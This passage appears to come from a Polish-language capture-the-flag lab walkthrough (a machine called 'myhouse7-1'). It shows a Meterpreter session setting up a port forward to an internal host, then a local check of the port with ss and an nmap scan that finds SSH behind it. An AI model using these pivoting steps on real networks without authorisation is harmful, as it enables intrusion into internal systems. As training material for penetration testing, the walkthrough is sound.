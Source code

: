 <div class="notice--primary" markdown="1">
```console
sessions 1
portfwd add -l 24 -p 24 -r 172.31.20.194
portfwd
```
```console
msf6 auxiliary(scanner/portscan/tcp) > sessions 1
[*] Starting interaction with 1...

meterpreter > portfwd add -l 24 -p 24 -r 172.31.20.194
[*] Local TCP relay created: :24 <-> 172.31.20.194:24
meterpreter > portfwd

Active Port Forwards
====================

   Index  Local             Remote      Direction
   -----  -----             ------      ---------
   1      172.31.20.194:24  0.0.0.0:24  Forward

1 total active port forwards.

meterpreter >
```
</div>
Przechodzimy na jakąkolwiek konsolę w naszym systemie i sprawdzamy czy jest otwarty port 24:
{: .text-justify}
```console
root@kali:/home/szikers/myhouse7-1# ss -tuln
Netid          State           Recv-Q          Send-Q                    Local Address:Port                     Peer Address:Port          Process
tcp            LISTEN          0               256                         172.16.1.10:4444                          0.0.0.0:*
tcp            LISTEN          0               256                             0.0.0.0:8080                          0.0.0.0:*
tcp            LISTEN          0               128                             0.0.0.0:22                            0.0.0.0:*
tcp            LISTEN          0               256                             0.0.0.0:24                            0.0.0.0:*
tcp            LISTEN          0               244                           127.0.0.1:5432                          0.0.0.0:*
tcp            LISTEN          0               128                                [::]:22                               [::]:*
tcp            LISTEN          0               244                               [::1]:5432                             [::]:*
```
Widać, że połączanie na 24 porcie jest. Teraz sprawdźmy co się tam kryje:
{: .text-justify}

## SSH
```bash
# root@kali:/home/szikers/myhouse7-1# nmap -sV -p 24 127.0.0.1
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-01 20:03 CEST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000041s latency).

PORT   STATE SERVICE VERSION
24/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.58 seconds
```